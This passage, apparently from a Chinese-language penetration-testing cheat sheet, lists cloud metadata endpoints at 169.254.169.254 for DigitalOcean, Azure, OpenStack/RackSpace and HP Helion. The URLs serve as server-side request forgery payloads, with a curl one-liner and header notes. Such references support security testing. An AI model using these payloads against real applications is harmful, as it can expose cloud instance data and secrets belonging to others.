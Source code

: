 ### Digital Ocean的SSRF URL

文档可在`https://developers.digitalocean.com/documentation/metadata/`获取

```powershell
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

所有请求一体化：
curl http://169.254.169.254/metadata/v1.json | jq
```



### SSRF URL for Packetcloud

文档可在 `https://metadata.packet.net/userdata` 获取

### SSRF URL for Azure

有限的，可能还有更多？`https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/`

```powershell
http://169.254.169.254/metadata/v1/maintenance
```

2017年4月更新，Azure支持更多；需要"Metadata: true"头 `https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service`

```powershell
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

### SSRF URL for OpenStack/RackSpace

（是否需要头？未知）

```powershell
http://169.254.169.254/openstack
```

### SSRF URL for HP Helion

（是否需要头？未知）

```powershell
http://169.254.169.254/2009-04-04/meta-data/ 
```
